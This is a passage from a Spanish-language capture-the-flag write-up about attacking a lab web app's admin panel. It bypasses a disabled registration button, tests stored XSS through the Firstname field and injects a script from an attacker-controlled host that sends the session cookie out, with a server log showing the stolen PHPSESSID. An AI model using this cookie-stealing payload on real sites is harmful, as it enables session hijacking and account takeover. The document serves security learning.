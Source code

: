 - Archivo `admin.php`:

![Pasted image 20240312122704](https://github.com/JoseVazquez101/Writteups/assets/111292579/5b3ef56c-11fb-4348-a0c3-2ef959a43a4a)

- Intenté activar mi cuenta para loguearme con las credenciales `slamotte:fzghn4lw`, pero me apareció esto:

![Pasted image 20240312224812](https://github.com/JoseVazquez101/Writteups/assets/111292579/7accd025-8749-4eb8-bb75-3efc53c6c902)

- Vemos que la url `http://192.168.17.146/admin/admin.php?id=11&status=active` al parecer intenta autenticar al usuario pero por obvias razones no tenemos permisos para esto.
- Intenté mejor crear un usuario, pero el botón para registro estaba bloqueado:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/7e464143-2e2a-467f-a9ab-7747f985c121)

- HTML no nos detendrá, así que inspeccionamos el elemento y eliminamos las restricción.
- Eliminamos `disabled=""`:

![Pasted image 20240312231139](https://github.com/JoseVazquez101/Writteups/assets/111292579/52c2a573-c854-452e-89f3-63ad4904a05f)

- Así podemos crear a nuestro usuario.
- Ahora bien, el problema es que cuando intentemos iniciar sesión, el usuario se bloqueará automáticamente.
- Creé otro usuario con el siguiente Firstname, para ver si así es posible cargar código JavaScript:

~~~javascript
<script>alert("XSS!!!");</script>
~~~

- Y en efecto, es posible:

![Pasted image 20240312232235](https://github.com/JoseVazquez101/Writteups/assets/111292579/8bb3e550-2cd2-45f3-bb00-6b2fb3271c9d)

- Ahora bien, podríamos intentar cargar una instrucción que robe la session cookie de un usuario que constantemente monitoreé los páneles.
- Tendríamos que crear un user con un Firstname que quedase de la siguiente manera:

~~~javascript
<script src="http://192.168.17.128/rubberCookie.js"></script>
~~~

- Y debemos montar en un server de Python, un script `rubberCookie.js` que tenga las siguientes instrucciones:

~~~javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.17.128/?cookie=' + document.cookie);
request.send();
~~~

- Una vez hecho esto, pasando no más de un minuto nos debería llegar una cookie de sesión:

~~~bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.17.146 - - [13/Mar/2024 01:45:41] "GET /rubberCookie.js HTTP/1.1" 200 -
192.168.17.146 - - [13/Mar/2024 01:45:41] "GET /?cookie=PHPSESSID=ljs500bsvfe4ulgoanctj7viq6 HTTP/1.1" 200 -
~~~
